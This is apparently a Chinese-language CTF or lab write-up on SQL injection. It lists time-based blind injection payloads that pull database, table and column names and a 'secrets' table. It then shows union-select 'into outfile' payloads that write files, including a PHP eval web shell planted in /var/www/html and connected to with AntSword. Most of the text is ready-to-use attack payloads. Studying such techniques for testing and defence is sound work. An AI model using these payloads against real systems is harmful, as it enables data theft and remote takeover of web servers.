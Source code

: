 将中间需要的内容进行替换即可

```php
        # 当前所在库
        # temp["student_name"] = f"Alice'and(if((ord(mid((select(group_concat(database()))),{i},1))>{mid}),sleep(2),1))#"
        # 表名
        # temp["student_name"] = f"Alice'and(if((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),{i},1))))>{mid}),sleep(2),1))#"
        # 字段名
        # temp["student_name"] = f"Alice'and(if((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),{i},1))))>{mid}),sleep(2),1))#"
        # 内容
```



![img](https://s2.loli.net/2024/12/01/c8vzKkLUde1oiqX.png)

#### sqlshell

参考文献：

[sql注入getshell的几种方式](https://blog.csdn.net/qq_44159028/article/details/116274542?ops_request_misc=%7B%22request%5Fid%22%3A%2285deb1a33a555e82c6015c8dcb38073c%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=85deb1a33a555e82c6015c8dcb38073c&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-116274542-null-null.142^v100^pc_search_result_base4&utm_term=sqlshell&spm=1018.2226.3001.4187)

这里介绍了两种方式利用sql向系统中间写入木马

##### union select 后写入

```php
?id=1’ union select 1,2,’<?php phpinfo();?>’ into dumpfile ‘c:/www/info.php’#
?id=1’ union select 1,2,’<?php phpinfo();?>’ into outfile ‘c:/www/info.php’#
```

后面为地址，也可以选择写入/var/www/html这个经典的网络地址:这个网址很多时候都是默认访问的

这里直接构造

```php
1' union select 1,2,"<?php eval($_POST['123']);?>" into outfile '/var/www/html/2.php'#
```

之后蚁剑连接即可

链接地址

http://127.0.0.1:52936/2.php

找到![img](https://s2.loli.net/2024/12/01/95VzN4MYFbaiWm2.png)

##### 部分其他类型注入方法

注入原理

通过select语句查询的内容写入文件。
